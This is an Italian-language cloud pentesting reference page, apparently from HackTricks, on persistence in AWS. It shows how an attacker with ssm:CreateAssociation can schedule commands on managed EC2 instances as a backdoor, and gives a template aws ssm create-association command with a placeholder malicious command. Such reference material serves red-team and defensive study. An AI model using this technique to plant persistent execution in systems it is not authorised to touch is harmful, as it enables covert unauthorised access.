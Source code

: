 # AWS - SSM Perssitence

{{#include ../../../banners/hacktricks-training.md}}

## SSM

Per ulteriori informazioni controlla:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### Utilizzando ssm:CreateAssociation per la persistenza

Un attaccante con il permesso **`ssm:CreateAssociation`** può creare un'Associazione del Gestore di Stato per eseguire automaticamente comandi su istanze EC2 gestite da SSM. Queste associazioni possono essere configurate per essere eseguite a intervalli fissi, rendendole adatte per una persistenza simile a una backdoor senza sessioni interattive.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> Questo metodo di persistenza funziona finché l'istanza EC2 è gestita da Systems Manager, l'agente SSM è in esecuzione e l'attaccante ha il permesso di creare associazioni. Non richiede sessioni interattive o permessi espliciti ssm:SendCommand. **Importante:** Il parametro `--schedule-expression` (ad esempio, `rate(30 minutes)`) deve rispettare l'intervallo minimo di 30 minuti di AWS. Per l'esecuzione immediata o una tantum, omettere completamente `--schedule-expression` — l'associazione verrà eseguita una volta dopo la creazione.

{{#include ../../../banners/hacktricks-training.md}}
